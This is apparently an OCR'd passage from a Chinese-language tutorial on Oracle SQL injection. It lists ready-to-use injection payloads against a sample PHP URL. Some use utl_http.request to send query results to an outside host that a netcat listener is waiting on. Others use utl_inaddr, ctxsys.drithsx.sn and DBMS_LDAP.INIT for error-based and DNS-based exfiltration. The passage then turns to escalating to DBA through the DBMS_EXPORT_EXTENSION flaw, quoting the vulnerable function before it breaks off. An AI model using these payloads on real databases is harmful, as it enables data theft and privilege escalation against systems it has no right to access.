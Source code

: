 ```
utl_http.request

local: nc.traditional -l -p 1234

web: http://www.hellove.net/hellove.php?id=123 and 1=utl_http.request('http://10.1.100.1/'||(SQL in HERE))  
utl_inaddr.get_host_name

error base  
web: http://www.hellove.net/hellove.php?id=123 and 1=utl_inaddr.get_host_name((SQL in HERE))  
utl_inaddr.get_host_address

error base or dns  
web: http://www.hellove.net/hellove.php?id=123 and 1=utl_inaddr.get_host_address((SQL in HERE))  
ctxsys.drithsx.sn

error base  
web: http://www.hellove.net/hellove.php?id=123 and 1=ctxsys.drithsx.sn(1,(SQL in HERE))  
sys.dbms_ldap.init

dns  
web: http://www.hellove.net/hellove.php?id=123 and SYS.DBMS_LDAP.INIT(((SQL in HERE)||'hellove.net',80) is not null 
```

utl_http.request,utl_inaddr.get_host_name,utl_inaddr.get_host_address 由于 11g 的安全特性无法继续使用，但是我们 可以在显错模式下利用 ctxsys.drithsx.sn，或者自己搭建一个 dnsserver，将一个域名的解析 server 指向该 server，利用 sys.dbms_ldap.init 还可以在 11g 下正常工作

**0x2 权限提升**

在这里假设我们得到的这个注射点所在的用户的拥有的权限很小，仅有 create session 或者其他权限，也假设我们并没有足够走运 能够注射到 pl/sql 语句中，仅仅是一个普普通通的注射点，这个时候我们就要想想如何提权了，所以本小结的主题是如何让我们现在 的用户成为 dba，let’s begin

DBMS_EXPORT_EXTENSION  现在我们来关注一下 DBMS_EXPORT_EXTENSION 这个包，这个包在 06 年 7 月之前存在 3 个危险函数，get_domain_index_metadata， get_v2_domain_index_tables，get_domain_index_tables，这三个函数 sys 定义，默认都是 definer right ,oracle 的初次 修复方案很友爱，前两个函数都修得差不多了，但是第三个在 10g r2 未打补丁的情况下，还存在着，让我们看一下这个函数的代码

```
FUNCTION GET_DOMAIN_INDEX_TABLES (  
INDEX_NAME IN VARCHAR2,  
INDEX_SCHEMA IN VARCHAR2,  
TYPE_NAME IN VARCHAR2,  
TYPE_SCHEMA IN VARCHAR2,  
READ_ONLY IN PLS_INTEGER,  
VERSION IN VARCHAR2,  
GET_TABLES IN PLS_INTEGER)  
RETURN VARCHAR2 IS

CRS INTEGER := DBMS_SQL.OPEN_CURSOR;  
DUMMY INTEGER;  
RETVAL INTEGER;  
STMTSTRING VARCHAR2(3901);  
COMPILE_ERROR EXCEPTION;  
PRAGMA EXCEPTION_INIT(COMPILE_ERROR, -6550);

BEGIN  
IF GET_TABLES = 1 THEN  
GETTABLENAMES_CONTEXT := 0;

STMTSTRING :=  
'DECLARE ' ||  
'oindexinfo ODCIIndexInfo := ODCIIndexInfo(' ||  
''''||SYS.DBMS_ASSERT.SCHEMA_NAME(INDEX_SCHEMA)||''','''||  
SYS.DBMS_ASSERT.SIMPLE_SQL_NAME(INDEX_NAME)||''', ' ||  
```